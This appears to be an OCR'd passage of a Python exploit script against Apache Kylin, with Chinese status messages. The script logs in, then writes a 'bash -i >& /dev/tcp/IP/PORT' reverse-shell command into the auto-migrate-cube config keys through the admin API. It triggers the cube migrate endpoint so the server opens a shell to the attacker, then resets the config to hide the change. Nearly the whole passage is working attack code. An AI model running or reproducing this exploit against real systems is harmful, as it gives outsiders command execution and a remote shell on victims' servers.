 ```python
            print("\033[32m[o] 成功登录，获得JSESSIONID：" + response.cookies["JSESSIONID"] + "\033[0m")
            return response.cookies["JSESSIONID"],Authorization
    except:
        print("\033[31m[x] 漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, cookie, IP, PORT, Authorization):
    config_url = target_url + "/kylin/api/admin/config"

    key = ["kylin.tool.auto-migrate-cube.enabled","kylin.tool.auto-migrate-cube.src-config","kylin.tool.auto-migrate-cube.dest-config"]
    value = ["true","echo;bash -i >& /dev/tcp/{}/{} 0>&1;echo".format(IP, PORT), "shell"]

    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Authorization": Authorization,
        "Accept": "application/json, text/plain, */*",
        "Content-Type": "application/json;charset=UTF-8",
        "Pragma": "no-cache",
        "Cookie": "project=null;JSESSIONID="+cookie
    }
    for i in range(0,3):
        data = """{"key":"%s","value":"%s"}""" % (key[i], value[i])
        try:
            response = requests.put(url=config_url, headers=headers, data=data, timeout=20)
            if response.status_code == 200:
                print("\033[32m[o] 成功将" + key[i] +"设置为" + value[i] +"\033[0m")
            else:
                print("\033[31m[x] 设置" + key[i] +"为" + value[i] +"失败\033[0m")
                sys.exit(0)
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
            sys.exit(0)

def POC_3(target_url, cookie):
    print("\033[35m[o] 正在反弹shell......\033[0m")
    vuln_url = target_url + "/kylin/api/cubes/kylin_sales_cube/learn_kylin/migrate"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "project=null;JSESSIONID=" + cookie
    }
    try:
        response = requests.post(url=vuln_url, headers=headers)
        POC_4(target_url, cookie)
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")
        sys.exit(0)

def POC_4(target_url, cookie):
    config_url = target_url + "/kylin/api/admin/config"

    key = ["kylin.tool.auto-migrate-cube.enabled", "kylin.tool.auto-migrate-cube.src-config",
           "kylin.tool.auto-migrate-cube.dest-config"]
    value = ["flase", "echo;echo;echo", "None"]

    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Authorization": Authorization,
        "Accept": "application/json, text/plain, */*",
        "Content-Type": "application/json;charset=UTF-8",
```